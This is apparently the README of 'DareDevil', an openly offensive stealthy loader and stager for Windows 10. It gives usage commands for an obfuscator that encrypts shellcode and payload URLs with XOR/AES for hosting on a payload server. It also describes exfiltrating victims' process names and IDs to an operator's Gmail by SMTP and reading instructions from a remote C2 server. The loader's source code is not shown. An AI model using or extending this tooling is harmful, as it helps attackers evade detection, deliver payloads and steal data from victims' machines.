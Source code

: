 # DareDevil
Stealthy Loader-cum-dropper/stage-1/stager targeting Windows10

### Tools usage:

Obfuscator/encrypt.cs:
1. [For shellcode extraction and encryption]: place it in the directory in which .bin file is present.
2. [For url encryption]: Nothing! Just paste and run.

Example:
```
It can encrypt 'shellcode' and 'url' to xor, aes, aes_xor and aes_xor_b64:

// Creating .bin file and Extracting shellcode from .bin file:
// Creating: https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/
// Extract: 
cmd> encrypt.exe /file:file.bin /out:aes_xor_b64

// paste the output b64 bytes into a .txt file and upload it to payload server.
// cmd: "mv .\obfuscator\"
cmd> encrypt.exe /shellcodeurl:<url>.txt /out:aes_xor_b64

cmd> encrypt.exe /mscorliburl:<url>.exe /out:aes_xor_b64

// For Sending/ exfiltrating Victim process name and Ids to Operator Gmail via SMTP server
cmd> encrypt.exe /remotewriteurl:<url>.exe /out:aes_xor_b64

// For reading pid from pid.txt from payload server/ remote c2 server
cmd> encrypt.exe /remotereadurl:<url>.txt /out:aes_xor_b64
```

### [DareDevil] Resources and Credits:

1. I learned Reflective loader implementation from watching the _[<ins>SANS Offensive WorkShop</ins>](https://www.sans.org/offensive-operations/): ['From zero to hero: Creating a reflective loader in C#'](https://www.youtube.com/watch?v=qeOCZGuVsi4)_ by [@Jean_Maes_1994](https://twitter.com/jean_maes_1994). Also thanks to him, for answering my questions in his DM, so patiently :smile:!
2. Other basics of C# mostly by googling and by following offensive tradecraft basics from _[<ins>DEFCON 29 Adversary Village</ins>](https://adversaryvillage.org/): ['Tradecraft Development in Adversary Simulations`](https://youtu.be/KJsVVEn4fFw)_ by [@fozavci](https://twitter.com/fozavci).
3. PInvoke:
    - [pinvoke](http://www.pinvoke.net/)
    - [specterops:Matt Hand](https://posts.specterops.io/offensive-p-invoke-leveraging-the-win32-api-from-managed-code-7eef4fdef16d)
